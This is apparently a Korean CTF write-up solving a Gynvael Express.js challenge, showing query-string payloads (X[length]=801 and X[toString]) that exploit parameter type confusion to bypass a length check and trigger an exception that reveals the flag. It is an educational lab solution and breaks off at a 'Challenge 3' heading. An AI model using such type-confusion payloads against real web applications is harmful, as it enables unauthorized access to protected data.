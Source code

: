 <strong>`req.query.X`의 길이는 800보다 커야 하고, `JSON.stringify(req.query.X)`의 값은 100보다 작아야 합니다. </strong><br>

```
Bypass Payload: http://challenges.gynvael.stream:5002/?X[length]=801
```
<strong>Express.js는 Object로 값을 보내줄 수 있다는 것을 알고 있습니다. 위 조건문은 위 Payload를 이용해서 쉽게 우회할 수 있습니다. </strong><br>

```javascript
  if (req.query.X.length > 800) {
    const s = JSON.stringify(req.query.X)
    if (s.length > 100) {
      res.end("Go away.")
      return
    }
```
<strong>`req.query.X.length`를 참조하면 801, `JSON.stringify()` 메서드를 이용해서 Query String을 문자열로 만들게 되면 길이가 길어봐야 35정도(최종 페이로드 기준) 될 것이기 때문에 쉽게 우회할 수 있습니다.</strong><br>

```javascript
    try {
      const k = '<' + req.query.X + '>'
      res.end("Close, but no cigar.")
    } catch {
      res.end(FLAG)
    }
```
<strong>try/catch 문을 보면 catch 문에서 flag를 출력해주는 것을 볼 수 있습니다. catch 문으로 가기 위해서는 try 문에서 에러를 내뱉게 해야 합니다. `const k = '<' + req.query.X + '>'`를 보면 문자열과 오브젝트 값을 더해주는 것을 볼 수 있습니다.</strong><br>

<strong>Object와 문자열을 더해주면 오브젝트 값을 암시적으로 문자열로 변환해주는 메서드를 호출한다고 합니다. Javascript에서는 문자열로 변환해주는 메서드는 toString() 입니다.</strong><br>

```javascript
＞ var a = {toString:''}
undefined
＞ secret.length
1
＞ const s = '<' + a + '>';
ⓧ ▶Uncaught TypeError: Cannot convert object to primitive value
      at <anonymous>:1:15
```
<strong>Object 값으로 toString으로 보내줬습니다. 그 다음 `const s = '<' + a + '>';`에서는 a 의 값이 Object이기 때문에 toString를 호출하게 됩니다. 이때 toString을 `a.toString` 이렇게 호출하게 되는데 a의 toString 값은 위에 보면 ''로 재정의  때문에 Object를 문자열로 변환해주지 못 해 에러가 발생하게 됩니다.</strong><br>

```
Solve Payload : http://challenges.gynvael.stream:5002/?X[length]=801&X[toString]
```

`FLAG : CTF{WaaayBeyondPHPLikeWTF}`

---
### Challenge 3
